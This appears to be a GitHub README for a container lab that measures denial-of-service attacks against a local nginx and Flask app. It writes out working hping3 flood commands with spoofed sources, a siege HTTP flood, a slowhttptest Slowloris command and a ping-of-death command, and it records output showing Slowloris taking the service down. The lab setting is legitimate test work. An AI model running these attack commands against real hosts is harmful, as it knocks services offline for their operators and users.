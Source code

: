 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Example normal report
```
Transactions:		        5831 hits
Availability:		      100.00 %
Elapsed time:		       59.38 secs
Data transferred:	        0.01 MB
Response time:		        0.01 secs
Transaction rate:	       98.20 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.90
Successful transactions:        5831
Failed transactions:	           0
Longest transaction:	        0.16
Shortest transaction:	        0.00
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		        5866 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.00 secs
Transaction rate:	       98.89 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.37
Successful transactions:        5866
Failed transactions:	           0
Longest transaction:	        0.11
Shortest transaction:	        0.00
```
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application:
```
Transactions:		        2897 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.52 secs
Transaction rate:	       48.84 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		       25.59
Successful transactions:        2897
Failed transactions:	           0
Longest transaction:	       14.40
Shortest transaction:	        0.09
```
Also we can observe increase CPU and traffic on our nginx container:

* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

